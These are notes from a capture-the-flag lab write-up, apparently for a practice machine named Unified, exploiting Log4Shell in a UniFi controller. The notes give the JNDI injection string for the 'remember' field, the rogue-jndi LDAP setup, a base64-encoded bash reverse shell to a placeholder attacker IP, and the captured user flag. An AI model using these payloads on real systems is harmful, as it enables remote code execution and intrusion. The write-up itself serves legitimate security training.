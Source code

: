 # Unified

> IP: [10.129.239.238]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.129.239.238 -oN init_scan
      1. Port 22 -> ssh -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      2. Port 6789 -> ibm-db2-admin?
      3. Port 8080 -> http-proxy
      4. Port 8443 -> ssl/nagios-nsca Nagios NSCA
         1. http-title: UniFi Network
3. HTTP
   1. Navigate to website onport 8080
      1. We see login form and UniFi V6.4.54
4. RESEARCH
   1. Looking around for exploits for Unifi (specifically 6.4.54) we see a CVE-2021-44228
   2. Here is a great article that references this: "https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi"
   3. This looks to be using ldap and exploits the "Remember me" function of the login
5. FOLLOW CVE INSTRUCTIONS
   1. Lets test for our vulnerability
      1. BURPSUITE -> INTERCEPT -> SEND TO REPEATER
         1. Change our "remember" value to our local IP
            1. SEND
      2. Now lets check to see if the traffic infact was sent to our machine
         1. > tcpdump -i tun0 port 389
            1. SUCCESS!
   2. Lets download anf install the rogue-jndi tool (GitHub)
      1. > git clone "https://github.com/veracode-research/rogue-jndi.git"
      2. > mvn package
         1. This compiles the JAR file
   3. Now lets get our revshell payload and base64 encode it
      1. > echo 'bash -c bash -i >&/dev/tcp/MY_IP_ADDR/4444 0>&1' | base64
         1. RESPONSE: "YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvTVlfSVBfQUREUi80NDQ0IDA+JjEK"
   4. Now run our JAR file with our payload this starts the JNDI/LDAP server
      1. > java -jar ~/TOOLS/rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvTVlfSVBfQUREUi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "MY_IP_ADDR"
   5. Now go back to burp and SEND again with our payload being "${jndi:ldap://MY_IP_ADDR:1389/o=tomcat}"
   6. NETCAT
      1. Now that our netcat lisnter got us a revshell lets stabilize it for bash
         1. > script /dev/null -c bash
         2. SUCCESS!
6. ENUMERATION
   1. Check users home directories
      1. > ls /home
         1. michael
      2. > ls /home/michael
         1. user.txt
      3. > cat /home/michael/user.txt
         1. FLAG: `6ced1a6a89e666c0620cdb10262ba127`
   2. Check for mongodb and other running services
      1. > ps auxfww
